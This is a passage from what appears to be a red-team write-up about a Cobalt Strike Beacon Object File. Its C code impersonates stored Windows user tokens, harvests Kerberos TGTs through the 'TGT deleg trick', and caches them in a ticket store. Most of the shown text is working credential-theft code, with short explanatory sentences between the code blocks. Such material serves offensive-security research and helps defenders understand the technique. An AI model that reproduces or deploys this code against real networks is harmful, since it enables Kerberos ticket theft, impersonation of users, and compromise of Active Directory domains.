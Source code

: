 We can impersonate the tokens in our TokenStore and generate a TGT for the user.

```c
/*
 * Impersonate a token to generate a TGT ticket
 */
BOOL GenerateTicket(PTOKEN Token, PTICKET Ticket)
{
    if ( Token->TokenHandle && Token->TokenHandle != INVALID_HANDLE_VALUE )
    {

        // Impersonate the user
        if ( BeaconUseToken( Token->TokenHandle ) )
        {

            // Try to generate the TGT via TGT deleg trick
            Ticket->Value = TgtDeleg( NULL );

            // Revert back
            BeaconRevertToken();

            if ( Ticket->Value != NULL )
                return TRUE;
        }
    }
    return FALSE;
}
```

The same procedure as before is used to save the Kerberos tickets in a `tgtstore`.

```c
// Loop over all the tokens in store
while( CurrentToken )
{
    // we don't have a valid ticket for this username
    if ( !ValidTicketInStore( CurrentToken->Username, TicketStore, Timestamp ) )
    {
        // We generate a new TGT
        if ( GenerateTicket( CurrentToken, &TmpTicket ) )
        {
            // init the new ticket
            MSVCRT$wcscpy_s( TmpTicket.Username, FULL_NAME_LENGTH, CurrentToken->Username );
            TmpTicket.Timestamp = Timestamp;
            TmpTicket.TicketId = ++LastTicketId;

            // add the new ticket to the store
            PRINT_OUT( "Add ticket to store (%ls)\n", TmpTicket.Username );
            AddTicketToStore( &TicketStore, TmpTicket );
        }
    }
    CurrentToken = CurrentToken->Next;
}

// save the TGT store
BeaconAddValue( TICKET_STORE_NAME, TicketStore );
```
